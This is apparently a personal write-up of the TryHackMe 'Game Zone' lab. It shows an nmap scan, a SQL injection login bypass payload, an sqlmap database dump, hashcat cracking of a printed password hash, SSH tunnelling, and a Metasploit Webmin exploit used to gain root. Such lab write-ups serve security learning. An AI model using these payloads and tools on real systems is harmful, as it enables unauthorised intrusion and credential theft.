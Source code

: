 # Game Zone

This is my write-up for the TryHackMe machine at: [https://tryhackme.com/room/gamezone](https://tryhackme.com/room/gamezone).

### Deploy the vulnerable machine

The hint for the first question is **Reverse Image Search**. I then posted the picture in `Yandex.com` and got the following:

![](<../../.gitbook/assets/image (275).png>)

I then clicked on an image and it led me to a title: **Hitman Absolution**. I then Google-d the character name, and got the answer:

![](<../../.gitbook/assets/image (276).png>)

> What is the name of the large cartoon avatar holding a sniper on the forum? Agent 47

### Obtain access via SQLi

I then ran an **nmap** scan:

```c
nmap -T4 -A 10.10.72.202 -oN nmap_scan.txt
```

I got the following output:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-27 16:30 EDT
Nmap scan report for 10.10.72.202
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.05 seconds
```

I noticed that there were only 2 ports open: 22 and 80. I went on port 80 to see what the website is:

![](<../../.gitbook/assets/image (277).png>)

After entering in **' or 1=1 -- -** in the username portion and left the password field empty (based on the recommendations of the THM room creator). I was in then:

![](<../../.gitbook/assets/image (278).png>)

> When you've logged in, what page do you get redirected to? **portal.php**

### **Using SQLMap**

For this one, we have to intercept the request to get the format for the SQLMap usage later. I turned on **Burpsuite**, and then got the request:

![](<../../.gitbook/assets/image (279).png>)

I then saved this to a file:

![](<../../.gitbook/assets/image (280).png>)

I then ran the command the room recommended:

```c
sqlmap -r sqlmap_output.txt --dbms=mysql --dump
```

I then got the following output:

![](<../../.gitbook/assets/image (281).png>)

> In the users table, what is the hashed password? **ab**\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
>
> What was the username associated with the hashed password? **agent47**
>
> What was the other table name? **post**

### Cracking a password with JohnTheRipper

For this one, I went with Hashcat, just because I am more comfortable with hashcat. I ran the following command:

```c
hashcat -m 1400 ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 rockyou.txt
```

The rockyou.txt file is default in Kali, and it is located at /usr/share/wordlist. I copied it to the local directory, ran **gunzip** on it, and got the file. As for the hashcat hash crack run, I got the following output:

![](<../../.gitbook/assets/image (282).png>)

> What is the de-hashed password? **vi\*\*\*\*\*\*\*\*\*\***

I ran `ssh agent47@10.10.72.202` and used the password I had received before, and got into the machine:

![](<../../.gitbook/assets/image (283).png>)

I then got the user.txt flag:

![](<../../.gitbook/assets/image (284).png>)

> What is the user flag? **649\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\***

### **Exposing serviced with reverse SSH tunnels**

> How many TCP sockets are running? **5**

I then ran the following command, based on the recomendation from the machine:

```c
ssh -L 10000:localhost:10000 agent47@10.10.72.202
```

I then posted the password that I had gotten previously into the password for the SSH, and got in again:

![](<../../.gitbook/assets/image (285).png>)

This time, we have the webapp running on our localhost:

![](<../../.gitbook/assets/image (286).png>)

> What is the name of the exposed CMS? **Webmin**

The login credentials for the webapp were the same credentials from previously, this leads to this site:

![](<../../.gitbook/assets/image (287).png>)

> What is the CMS version? **1.580**

### Privilege Escalation with Metasploit

I searched on msfconsole for an exploit:

![](<../../.gitbook/assets/image (289).png>)

I then started filling in options, and ended up with this:

![](<../../.gitbook/assets/image (288).png>)

I realized that the RHOST was supposed to be set to 127.0.0.1, based on [this writeup](https://www.aldeid.com/wiki/TryHackMe-Game-Zone#.5BTask\_6.5D\_Privilege\_Escalation\_with\_Metasploit). When I changed that option in msfconsole, I was then able to get the exploit to work. I then got the flag:

![](<../../.gitbook/assets/image (292).png>)

> What is the root flag? **a4\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\***
